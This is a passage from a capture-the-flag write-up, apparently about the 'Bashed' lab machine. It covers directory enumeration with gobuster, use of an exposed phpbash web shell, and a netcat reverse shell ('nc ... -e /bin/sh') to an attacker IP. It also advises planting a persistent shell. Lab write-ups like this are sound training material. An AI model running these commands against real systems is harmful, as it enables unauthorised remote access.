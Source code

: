 ![](https://miro.medium.com/max/1015/1*E5N4VTc8XPGhncoNHWeSDg.png)

Let’s do more enumeration on the web server. Run gobuster to enumerate directories.

```text
gobuster dir -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.68
```

* **-t**: number of threads
* **-w**: wordlist
* **-u**: specify the URL
* **dir**: uses directory/file brute forcing mode

The directories _/images_, _/uploads_, _/php_ and _/css_ lead us nowhere. So let’s move on to the _/dev_ directory.

![](https://miro.medium.com/max/856/1*b19auN1AX7gK-psD3_ZfKA.png)

We found the _phpbash.php_ script and clicking on it gives us a web shell!

## Gaining a foothold <a id="b35b"></a>

What exactly does this shell do and in what context does it run?

```text
whoamiiduname -a
```

* _whoami_: print effective userid
* _id_: print real and effective user and group IDs
* _uname -a_: print system information

![](https://miro.medium.com/max/863/1*q4YuzsyXE3obhg__TIRCBw.png)

We’re running in the context of an Apache default user _www-data_. For this machine, we already have a low privileged shell that allows us to run linux commands on the web server, so we don’t necessarily need to get our own reverse shell. However, in a real penetration test, you would place your own shell in the system just in case the creator notices his insecure configuration and takes down the php script. This way you’ll have consistent access to the system by a shell that you control.

Since we’re modelling a real penetration test, let’s get a reverse shell going. In the attack machine \(kali\) set up a listener.

```text
nc -nlvp 4444
```

In the target machine \(bashed\) send a reverse shell to the attack machine.

```text
nc -nv 10.10.14.30 4444 -e /bin/sh
```

Unfortunately, the connection keeps terminating. Let’s try sending a reverse shell in a different way.

P[entestmonkey](http://pentestmonkey.net/) has a comprehensive list of reverse shells. Check if python exists on the target machine.
